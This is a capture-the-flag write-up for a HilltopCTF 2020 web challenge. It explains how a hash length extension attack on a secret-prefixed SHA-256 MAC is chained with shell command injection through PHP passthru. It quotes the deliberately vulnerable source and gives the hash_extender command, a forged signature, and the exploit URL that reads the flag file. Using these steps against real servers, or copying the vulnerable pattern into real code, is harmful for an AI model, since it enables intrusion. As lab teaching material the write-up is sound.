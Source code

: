 ```yaml
---
title: What Is The Deadly Bug Here? - [Web, 50pts]
layout: default
type: post
topic: hilltopctf2020
---
```


## Description


![c9fd42053c1860b5e8adc479279ffeef.png](/assets/images/ec6165ad18424803876d01a024adcda0.png)


## Solving

Given a simple website that looks like this.

![0956ba0662dbb4f93d2dcaa8e8f2527a.png](/assets/images/1f07699a5c3a4904a02dc7d34bc68f56.png)

Examining the response of the request, we could found some interesting headers.

![662190ad5e6f3fa71a40cf56ef3f4240.png](/assets/images/64d64912595a4428b87bab10e38b0aeb.png)


Sending the `?debug` parameter to the website showed us the source code of the challenge. 

```
<?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

There is some interesting information that we can get by statically analyzing the source code. Here are them:
1. `$greet` variable is supposed to contain a name of a file; and we can control the value as this line of code shows:
    ```
    if (isset($_GET['greet'])) $greet = $_GET['greet'];
    ```
2. If you get the reference, this challenge is based on [this](https://www.youtube.com/watch?v=MpeaSNERwQA) video on Youtube by LiveOverflow. `hash_hmac` function in that video is more or less the same with `patched` function in this challenge, but supplying an array into the function would not work anymore because of this line of code:
    ```
    if (is_string($string)) {
        ...
    }
    ```
    Anyway, if you don't understand what I'm talking about, please watch the video, it's all there :).
3. The `patched` function validates our input and returns a message-digested hash value from the input. The difference between this and the function in [that](https://www.youtube.com/watch?v=MpeaSNERwQA) video is: with the intention of patching (or should I say securing) the application, this challenge uses `hash` function instead of `hash_hmac` function to generate the hash value. By doing that, the application is potentially vulnerable to *Hash Length Extension Attack*. We'll come back to this very soon.
4. This line of code:
    ```
    $greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);
    ```
    basically strips out every special character from the `$greet` variable.
5. If the `mac` we provide (`$_GET['mac'`) is not equals to the generated `mac` value, the application is terminated. So we need to make sure that both are the same.

6. Finally, this line of code:
    ```
    echo passthru("cat $greet 2>&1", $err);
    ```
    is how we are gonna get the flag. The `$greet` variable, which we can control, will be passed into `passthru` function; which will then be executed as a shell command.

*Hash Length Extension Attack* is a type of attack where an attacker can use a computed hash `(Hash(*message1*))` and the length of the message (message1*) to calculate another hash `(Hash(*message1* || *message2*))` for an attacker-controlled message. An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data (read more [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)).

This challenge gives us a hash value and it's original data by sending the `X-MY-GREET` and `X-MY-GREET-MAC` header on the response. Thus, without knowing the secret, we can generate a valid hash for `secret + greet.txt + <arbitrary evil data>` without knowing the value of the prepended secret. We can use *bash command separation* to execute arbitrary command after reading the value of `greet.txt`. Simply put, this would be the payload we want to be passed to the `passthru` function:
```
echo greet.txt;cat /var/www/flag.txt 2>&1
```

The location of the flag can be found on the hint published for this challenge.

There are many tools out there, but for this writeup, [this](https://github.com/iagox86/hash_extender) tool from Ron Bowes will help us doing the *Length Extension Attack*. And here's how we used them:
```
hash_extender -d 'aboutme.txt' -s cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c -a ';cat /var/www/flag.txt' -f sha256 -l 25 --out-data-format=html
```
From the manual:
`-d` is the original string that we're going to extend
`-s` is the original signature or the hash value of the original string
`-a` is the data that we want to append to the original string
`-f` is the hash algorithm
`-l` is the length of the secret, which is leaked when we visit `secret.php` page

![5fb70b6dbb0ed2b07a53175556086711.png](/assets/images/2d86a44f5e294cadbda6a4d893b1b275.png)

Then we get our new hash and new message.
```
New signature: 3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c
New string: aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt

```

![98365288a99edd441e4e4743df0298b5.png](/assets/images/e49e327073c740f7a2194e00ef28c372.png)

Don't worry about the null bytes in the new message, because fortunately the challenge used `filter_var` and those null bytes will be stripped before being passed into `passthru` function.

Send the hash and the message to the application like this:
```
http://192.81.210.234:10002/?mac=3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c&greet=aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt
```

And there's the flag.



![44cba8a2af6184dd0fe48900c4f53949.png](/assets/images/3d59ab4e510d4dad9a613a30c21e5100.png)



## The Flag
Flag is **HilltopCTF{uh...1think_1mad3_itwors3_s00wy}**
